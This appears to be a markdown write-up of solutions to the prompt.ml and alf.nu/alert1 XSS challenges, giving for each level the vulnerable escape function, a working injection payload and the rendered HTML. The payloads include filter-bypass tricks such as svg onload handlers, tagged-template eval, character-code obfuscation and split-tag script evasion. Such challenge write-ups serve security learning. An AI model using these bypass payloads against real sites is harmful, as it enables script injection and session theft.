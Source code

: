 # prompt.ml

## Challenges
1. Warmup
2. Closing tag
3. Parentheses
7. Splits
A. Encodings

### 0. Warmup

- Task
 
```
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```
"><svg onload=prompt(1)//
```

- HTML source

```
<input type="text" value=""><svg onload=prompt(1)//">
```

### 1. Tag stripping

- Task

```
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```
<svg onload=prompt(1)//
```

- HTML source

```
<article><svg onload=prompt(1)// </article>
```

### 2. Parenthesis-less

- Task

```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```
<script>eval.call`${'prompt\x281\x29'}`</script>
```

HTML source

```
<script>eval.call`${'prompt\x281\x29'}`</script>
```

### 7. Splits

Task

```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

Solution

```
"><script>/*#*/prompt/*#*/(1)/*#*/</script>
```

- HTML source

```
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script>"></p>
```. Escape encoding

### A. Encodings

- Task

```
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}   
```

- Solution

```
eval(String.fromCharCode(112).concat(String.fromCharCode(114).concat(String.fromCharCode(111).concat(String.fromCharCode(109).concat(String.fromCharCode(112).concat(String.fromCharCode(116)))))))(1)
```

- HTML source

```
<script>eval(String.fromCharCode(112).concat(String.fromCharCode(114).concat(String.fromCharCode(111).concat(String.fromCharCode(109).concat(String.fromCharCode(112).concat(String.fromCharCode(116)))))))(1)</script>
```

# alf.nu/alert1

### 1. Warmup

- Task

```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

-Solution

```
",alert(1),"
```

### 2. Adobe

- Task

```
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
\");alert(1)//
```

### JSON

- Task

```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</script><script>alert(1)//
```

### Markdown

- Task

```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```
[[x|http://onerror=javascript:alert(1)//]]
```

### Skandia

- Task

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

### JSON2

- Task

```
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</scrip</scriptt><script>alert(1)//
```
